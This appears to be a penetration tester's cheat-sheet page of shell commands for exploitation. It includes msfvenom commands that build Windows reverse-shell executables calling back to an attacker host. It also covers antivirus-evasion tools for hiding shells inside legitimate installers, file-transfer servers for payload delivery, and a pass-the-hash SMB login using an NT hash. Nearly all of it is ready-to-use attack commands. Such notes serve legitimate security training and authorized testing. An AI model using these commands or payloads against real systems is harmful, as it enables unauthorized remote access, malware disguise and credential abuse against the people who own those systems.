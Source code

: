 ### 💥Exploitation
#### Payload Creation

Check All The Payload Code: [[Code & Exploit Cheatsheet#Victim Machine Payloads]]
```shell
# cross compilation
x86_64-w64-mingw32-gcc windows_service.c -o service.exe  # for 64 bit
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe  -lws2_32  # for 32 bit
gcc -static -m32 code.c -o test  # for 32 bit linux
gcc -static code.c -o test  # for cross-compilation 


# MSF Venom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > mal_reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe-service > mal_service.exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c -e "x86/shikata_ga_nai" -b "\x00\x0a\x0d\x25\x26\x2b\x3d"

```
#### Evasion
```shell
# to encode and obfuscate powershell scripts in order to bypass AV
powershell-encoder.py
pwsh> InvokeStealth.ps1

shellter # for stealth mode it needs meterpreter shell otherwise it will crash
# Binaries to hide shell within Putty.exe, Spotify installer, sysmon.exe

veil # generating evasive metasploit payload
```
### 🚚File Transfer (Delivery)

[More file transfer techniques](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/file-transfer-techniques)

```shell
# Python web server
python -m http.server

# ftp server
python3 -m pyftpdlib -w -p 21 -u ignite -P 123 # skip -u -P for anonymous login

# Smb share
impacket-smbserver sharename /tmp/smbshare -smb2support -username 'test' -password 'test'# for no auth -username '' -password '' also set chmod 777 temp  
net user \\ip\sharename /user:test test  # on windows side

# webdav
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/

updog -p 8090

# my tool
fuzzy-httpserver -d /opt/transfers/ -p 800
```
### 🚪Initial Access
```shell
smbclient //192.168.50.212/secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
# --option='client min protocol=core' core/NT1/SMB2  to downgrade smb version client to check compatibility
# Certain enumeration features work only in SMB1

```